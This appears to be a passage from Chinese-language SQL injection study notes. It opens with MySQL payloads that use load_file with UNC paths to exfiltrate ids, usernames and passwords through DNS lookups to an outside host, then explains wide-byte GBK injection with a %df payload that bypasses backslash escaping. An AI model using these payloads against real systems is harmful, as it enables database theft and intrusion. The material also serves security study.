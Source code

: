```
```
//获取id
1' AND load_file(CONCAT('\\\\',(SELECT group_concat(id separator '__') FROM users),'.Laffrex.eyes.sh/abc')) --+
//获取username
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 1, 60) FROM 
users),'.Laffrex.eyes.sh/abc1')) --+		//本次字符最大长度为63
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+		

1' AND load_file(CONCAT('\\\\',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45) FROM users),'.Laffrex.eyes.sh/abc')) --+	//本次字符最大长度45
```

### 8.其他注入

#### (1). 宽字节注入

##### a. 概述

###### ①定义

* 宽字节是指**≥2个字节宽度**的编码技术

###### ② 原因

* set **character_set_client**="gbk"，通常导致**编码转换的注入问题**

* mysql在使用**GBK编码**时，**符合条件**会认为**2个字符是1个汉字**

* 第一个字节**129-254**，第二个字节为**64-254**


###### ③原理

* ①程序员会对**特殊字符**(例如单引号)进行**正则匹配通过反斜杠\使其失效**，这时无法使用普通注入；②在为gbk编码时，攻击者可以使用ascii＞128的字符与**反斜杠\组合成新的字符**，从而**绕过**反斜杠的**转义**

##### b.方法

###### ①.黑盒

* 在注入点后键入%df，再开始正常注入

* **键入字符的ASCII要大于128**，才能和反斜杠 **“\”** 组合成一个汉字

  ```
  1%df%' order by 3 -- qwe
  ```

###### ②.白盒

1. 方法

* 查看Mysql编码是否为**GBK**
* 是否使用了**preg_replace()**进行正则替换
* 是否使用了**addslashes()**进行转义
* 是否使用了**mysql_real_escape_string()**进行转义

2. 函数

   1. preg_replace()

      * 进行正则替换
  ```